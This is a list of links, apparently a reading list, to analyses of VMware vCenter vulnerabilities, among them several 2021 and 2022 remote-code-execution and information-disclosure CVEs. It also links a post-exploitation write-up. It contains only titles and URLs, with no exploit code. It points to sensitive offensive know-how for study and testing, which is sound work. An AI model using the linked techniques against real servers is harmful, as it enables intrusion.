-   [VMware vCenter RCE 漏洞踩坑实录](https://www.anquanke.com/post/id/234112)
-   [VMware vCenter 漏洞分析（一）](https://hosch3n.github.io/2021/07/06/VMware-vCenter%e6%bc%8f%e6%b4%9e%e5%88%86%e6%9e%90%ef%bc%88%e4%b8%80%ef%bc%89/)
-   [Vcenter 漏洞分析](https://cangqingzhe.github.io/2021/06/07/Vcenter%e6%bc%8f%e6%b4%9e%e5%88%86%e6%9e%90/)
-   [CVE-2021-21985 vCenter Server 远程代码执行漏洞分析](http://noahblog.360.cn/vcenter-cve-2021-2021-21985/)
-   [vCenter 2021 几个漏洞及后渗透](https://daidaitiehanhan.github.io/2022/04/18/vCenter2021%e5%87%a0%e4%b8%aa%e6%bc%8f%e6%b4%9e%e5%8f%8a%e5%90%8e%e6%b8%97%e9%80%8f/)
-   [全网最详细的 ESXI 进阶教程](https://www.bilibili.com/video/BV1Cp4y147Dd)
-   [CVE-2021-21972 vCenter Server 文件写入漏洞分析](http://noahblog.360.cn/vcenter-6-5-7-0-rce-lou-dong-fen-xi/)
-   [CVE-2021-21972 复现和分析](https://0x20h.com/p/7cb6)
-   [CVE-2021-22005-CEIP分析](https://xz.aliyun.com/t/10524)
-   [VMware CVE-2021-22005 Technical & Impact analysis](https://censys.io/vmware-cve-2021-22005-technical-impact-analysis/)
-   [vSphere开发指南6——vCenter SAML Certificates](https://3gstudent.github.io/vSphere%e5%bc%80%e5%8f%91%e6%8c%87%e5%8d%976-vCenter-SAML-Certificates)
-   [CVE-2022-22948: Sensitive Information Disclosure in VMware vCenter](https://www.pentera.io/blog/information-disclosure-in-vmware-vcenter/)
-   [CVE-2021-3156](https://research.nccgroup.com/2021/07/06/exploiting-the-sudo-baron-samedit-vulnerability-cve-2021-3156-on-vmware-vcenter-server-7-0/)
